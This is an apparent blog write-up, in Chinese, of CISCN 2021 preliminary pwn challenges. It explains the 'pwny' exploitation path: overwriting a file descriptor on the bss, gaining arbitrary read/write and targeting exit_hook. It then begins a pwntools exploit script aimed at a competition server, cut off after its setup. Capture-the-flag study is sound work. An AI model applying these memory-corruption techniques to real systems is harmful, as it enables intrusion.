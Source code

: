 ```yaml
---
layout:     post
title:      ciscn 初赛 2021
subtitle:   write up
date:       2021-05-16
author:     X1ng
header-img: ciscn初赛2021.jpg
catalog: true
tags:
    - 比赛
    - wp

---
```


只做了三个pwn，沙箱不会全丢给队友了，，最后的satool还来不及交

太菜了呜呜

[附件pwn](https://github.com/X1ngn/ctf/blob/master/ciscn2021pwn.zip)

[附件SATool](https://github.com/X1ngn/ctf/blob/master/SATool_%E9%99%84%E4%BB%B6.zip)

### pwny

可以从random读取字符覆盖bss上可控偏移的变量，覆盖fd后从无效的fd读取数据到保存fd的内存，会把fd覆盖为0，之后任意地址读写，泄露地址打exit_hook

```python
#!/usr/bin/python

from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'

local=0
binary_name='pwny'
libc_name='libc.so.6'


libc=ELF("./"+libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('124.71.226.118',22157)



def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
```